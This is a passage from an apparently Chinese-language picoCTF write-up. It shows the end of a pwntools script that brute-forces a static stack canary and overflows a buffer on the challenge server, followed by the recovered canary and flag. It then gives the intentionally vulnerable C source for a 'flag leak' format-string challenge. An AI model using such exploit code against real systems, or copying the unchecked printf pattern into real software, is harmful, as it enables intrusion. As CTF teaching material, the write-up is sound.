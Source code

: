 ```python
			io = remote('saturn.picoctf.net', 60065)
		else:
			canary[j] = i
			break
	io = remote('saturn.picoctf.net', 60065)

canary_value = canary[0] + (canary[1] << 8) + (canary[2] << 16) + (canary[3] << 24)
io.sendlineafter(b'> ', str(64 + 4 + 16 + 4).encode())
io.sendlineafter(b'Input> ', cyclic(64) + p32(canary_value) + cyclic(16) + p32(0x8049336))

io.interactive()
```

canary的值为BiRd

picoCTF{Stat1C_c4n4r13s_4R3_b4D_f9792127}

## 9. flag leak

源码：
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
```